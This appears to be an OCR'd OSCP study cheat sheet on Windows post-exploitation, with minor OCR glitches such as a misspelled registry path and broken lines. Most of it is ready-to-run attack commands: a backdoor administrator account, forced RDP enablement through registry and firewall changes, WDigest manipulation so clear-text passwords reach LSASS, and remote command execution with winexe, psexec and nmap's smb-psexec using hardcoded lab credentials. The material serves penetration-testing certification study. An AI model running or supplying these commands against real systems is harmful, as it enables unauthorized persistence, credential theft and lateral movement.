 OSCP - Windows Post Exploitation
Backdoor User

net user backdoor backdoor123 /add
net localgroup administrators backdoor /add
net localgroup "Remote Desktop Users" backdoor /add

Enabling RDP

netsh firewall set service RemoteDesktop enable

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t
REG_DWORD /d 0 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f

sc config TermService start= auto
net start Termservice
netsh.exe
firewall
add portopening TCP 3389 "Remote Desktop"

OR:

netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the
Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes
profile=private,domain localport=3389 protocol=tcp

netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (UDP-In)" dir=in action=allow
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the
Remote Desktop service to allow RDP traffic. [UDP 3389] added by LogicDaemon's script" enable=yes
profile=private,domain localport=3389 protocol=udp

OR (meterpreter)

run post/windows/manage/enable_rdp

https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
Dumping Credentials
https://adsecurity.org/?page_id=1821
in order to prevent the “clear-text” password from being placed in LSASS, the following registry key needs to be set to “0” (Digest Disabled):

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)

This registry key is worth monitoring in your environment since an attacker may wish to set it to 1 to enable Digest password support which forces “clear-text” passwords to be placed in LSASS on any version of Windows from Windows 7/2008R2 up to Windows 10/2012R2. Windows 8.1/2012 R2 and newer do not have a “UseLogonCredential” DWORD value, so it would have to be created. The existence of this key on these systems may indicate a problem.
Remote Commands

winexe --user=backdoor%laKK195@19z  //10.11.1.218 ipconfig

winexe --user=backdoor%laKK195@19z --system //10.11.1.218 cmd

OR

psexec (from Windows)

OR

nmap -sU -sS --script smb-psexec.nse --script-args=smbuser=<username>,smbpass=<password>[,config=<config>] -p U:137,T:139 <host>

a
